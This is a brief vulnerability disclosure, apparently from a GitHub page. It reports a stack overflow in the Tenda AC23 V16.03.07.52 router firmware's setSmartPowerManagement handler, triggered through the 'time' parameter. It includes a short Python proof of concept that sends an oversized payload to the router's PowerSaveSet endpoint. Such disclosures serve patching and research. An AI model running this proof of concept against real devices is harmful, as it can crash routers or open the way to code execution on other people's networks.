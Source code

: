 Tenda AC23 V16.03.07.52 has a stack overflow vulnerability that arises from the time parameter in the setSmartPowerManagement function not checking the length of the input data. An attacker could exploit this vulnerability to execute arbitrary code or cause a denial-of-service attack.

<img width="416" height="335" alt="image" src="https://github.com/user-attachments/assets/76d88846-935c-4d45-ba77-ec7cac11e66a" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/PowerSaveSet"

cookie = {"Cookie":"password=12345"}
data = {"time": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
